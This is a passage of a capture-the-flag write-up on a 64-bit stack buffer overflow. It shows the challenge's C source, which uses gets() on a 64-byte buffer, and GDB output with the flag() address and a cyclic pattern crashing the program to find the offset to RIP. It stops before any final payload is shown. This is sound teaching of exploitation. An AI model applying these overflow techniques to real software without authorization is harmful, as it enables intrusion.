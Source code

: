 ```c
  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

We can see that the provided file has a read buffer size of 64, and has a `flag()` function present. Like most binary exploitation challenges, the vulnerable `gets()` function is used here to retrieve user input.

It appears that nothing is out of the ordinary here. We just need to note that this is a 64-bit binary, and we need to return to the `flag()` function to get our flag.

Now, let's use GDB to find the function addresses, and to determine the offset to RIP (not EIP, as this is a 64-bit binary).

```bash
$ gdb vuln
>> ...
gef➤ info functions
...
0x0000000000401236  flag
0x00000000004012b2  vuln
0x00000000004012d2  main
...
```

We observe that the address of `flag()` is `0x0000000000401236`.

```bash
gef➤ pattern create 150
[+] Generating a pattern of 150 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: .../vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x00000000004012d1 in vuln ()
```
